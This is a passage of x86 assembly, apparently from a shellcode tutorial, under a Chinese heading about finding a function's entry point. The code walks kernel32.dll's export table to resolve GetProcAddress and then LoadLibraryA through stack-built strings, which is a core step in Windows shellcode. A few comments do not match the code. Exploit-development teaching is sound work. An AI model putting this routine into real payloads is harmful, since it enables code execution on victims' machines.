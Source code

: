 找到函数的入口点

```asm
jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
 jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of WinExec by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
 ret

functions:
# Push string "GetProcAddress",0x00 onto the stack
 xor eax, eax            ; clear eax register
 mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
 push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
 push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
 push 0x41636f72         ; Acor : 41636f72
 push 0x50746547         ; PteG : 50746547
 mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
 call findFunctionAddr   ; After Return EAX will = &GetProcAddress
# EAX = &GetProcAddress
 mov [ebp-0x1C], eax      ; save &GetProcAddress

; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
 xor edx, edx            ; EDX = 0x00000000
 push edx                ; null terminator for LoadLibraryA string
 push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
 push 0x7262694c         ; rbiL : 7262694c
 push 0x64616f4c         ; daoL : 64616f4c
 push esp                ; $hModule    -- push the address of the start of the string onto the stack
 push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
 mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
 call eax                ; Call the GetProcAddress Function.
 mov [ebp-0x20], eax     ; save Address of LoadLibraryA 


```
